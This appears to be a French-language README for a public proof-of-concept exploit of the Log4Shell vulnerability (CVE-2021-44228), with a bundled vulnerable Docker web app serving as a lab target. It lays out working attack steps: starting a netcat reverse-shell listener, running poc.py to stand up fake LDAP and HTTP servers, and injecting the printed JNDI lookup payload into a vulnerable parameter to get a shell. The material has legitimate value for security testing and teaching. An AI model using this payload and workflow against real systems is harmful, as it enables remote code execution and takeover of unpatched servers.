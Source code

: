 # log4j-shell-poc
Une Proof-Of-Concept pour la récente vulnérabilité trouvée CVE-2021-44228 . <br><br>
Log4j, Une bibliothèque de journalisation de java largement utilisée en elasticsearch, minecraft et autres.


Proof-of-concept (POC)
----------------------

Pour une  PoC, le fichier poc.py est pour. 


#### Prérequis:
```bash
pip install -r requirements.txt
```
#### Usage:


* Lancer un netcat listener pour accepter la connexion reverse shell <br>
```py
nc -lvnp 9001
```
* Lancer l'exploit.<br>
**Note:** Extraire java archive dans le même dossier sous le nom: `jdk1.8.0_20`.
```py
$ python3 poc.py --userip localhost --webport 8000 --lport 9001

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up fake LDAP server

[+] Send me: ${jndi:ldap://localhost:1389/a}

Listening on 0.0.0.0:1389
```

Ce script va configurer un HTTP server et LDAP server pour vous, et il va créer un payload que vous pouvez  coller sur le paramètre vulnerable . Afprès cela, si tout marche bien, vous allez avoir un shell sur lport.

<br>


Notre vulnerable application
--------------------------

Il faut lancer le Dockerfile avec une webapp vulnérable:
```c
1: docker build -t log4j-shell-poc .
2: docker run --network host log4j-shell-poc
```
Une fois lancer, vous pouvez accéder par: localhost:8080


Java version.
--------------------------------------

Java 8: `java-8u20`.

[https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html).<br>


Once you have downloaded and extracted the archive, you can find `java` and a few related binaries in `jdk1.8.0_20/bin`.<br>


```
❯ tar -xf jdk-8u20-linux-x64.tar.gz

❯ ./jdk1.8.0_20/bin/java -version
java version "1.8.0_20"
Java(TM) SE Runtime Environment (build 1.8.0_20-b26)
Java HotSpot(TM) 64-Bit Server VM (build 25.20-b23, mixed mode)
```


